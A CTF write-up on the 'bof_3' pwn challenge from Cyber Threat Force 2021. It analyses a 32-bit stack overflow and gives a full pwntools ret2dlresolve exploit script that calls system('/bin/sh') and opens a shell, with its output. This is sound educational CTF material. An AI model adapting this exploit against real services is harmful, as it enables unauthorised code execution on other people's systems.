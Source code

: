 ```yaml
---
title: "Writeup Cyber Threat Force : bof_3"
date: 2021-07-08T02:12:09+01:00
draft: false
tags: ["blog", "security", "ctf", "cyber-threat-force", "pwn"]
type: "posts"
showDate: true
---
```


For this challenge, we also were given a service executable. It was hosted remotely.

NOTE: since I'm writting this after the CTF ended, the demos are done locally.

```bash
$ checksec ./service
[*] '/home/vivescere/ctf/bof_3/service'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

$ ./service
password: 
mypassword
nop
```

NX enabled, and partial RELRO. Let's take a look at the binary using Ghidra:

```c
undefined4 main(void) {
  ignorMe(&stack0x00000004);
  puts("password: ");
  vuln();
  puts("nop");
  return 0;
}

void vuln(void) {
  undefined local_70 [104];
  
  read(0,local_70,0x96);
  return;
}
```

We have an overflow, but not much else going on. We won't be able to leak an address from the libc using a format string exploit, like on [the last challenge](/blog/writeup-cyber-threat-force-2021-pwn-bof-2).

We can try the [ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve) technique. Pwntools even has a nice module for it.

I found the offset using `cyclic` from pwntools.

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./service")

context.binary = exe
context.terminal = ['konsole', '-e']

def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote('XXX.XXX.XXX.XXX', 00000)

    return r

def main():
    r = conn()
    r.recvuntil(':')
    r.recvline()
    
    offset = 112

    rop = ROP(exe)
    dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh"])
    rop.read(0, dlresolve.data_addr)
    rop.ret2dlresolve(dlresolve)
    raw_rop = rop.chain()

    r.sendline(flat({offset: bytes(rop)}))
    r.sendline(dlresolve.payload)
    r.interactive()

if __name__ == "__main__":
    main()
```

```bash
$ python solve.py LOCAL
[*] '/home/vivescere/ctf/bof_3/service'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/vivescere/ctf/bof_3/service': pid 846530
[*] Loaded 10 cached gadgets for './service'
[*] Switching to interactive mode
$ pwd
/home/vivescere/ctf/bof_3
```

The flag is `CYBERTF{Zeroleak@nd_bruteF0rc3}`. It was in `/home/ctf/flag.txt`.

You can [view the sources on github](https://github.com/vivescere/ctf/tree/main/cyber-threat-force-2021/pwn/bof3) or [read other writeups](/blog/cyber-threat-force-ctf/).

